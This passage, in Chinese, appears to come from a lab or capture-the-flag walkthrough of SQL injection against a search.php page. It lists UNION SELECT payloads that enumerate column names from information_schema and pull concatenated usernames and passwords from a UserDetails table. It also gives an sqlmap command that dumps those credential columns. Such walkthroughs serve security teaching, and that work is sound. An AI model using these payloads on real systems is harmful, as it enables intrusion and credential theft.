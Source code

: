 爆出表中的列名

```shell
tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='UserDetails'#
```

```shell
tom' union select concat(username,password),version(),3,user(),5,6 from users.UserDetails#
```

![](./pic-9/23.jpg)

为了结果更清晰，采用`sqlmap`展示图片，使用`burp`抓取`search.php`请求时的数据包，并把数据包中的内容进行复制

```shell
sqlmap -r search -D users -T UserDetails -C username,password --dump
```
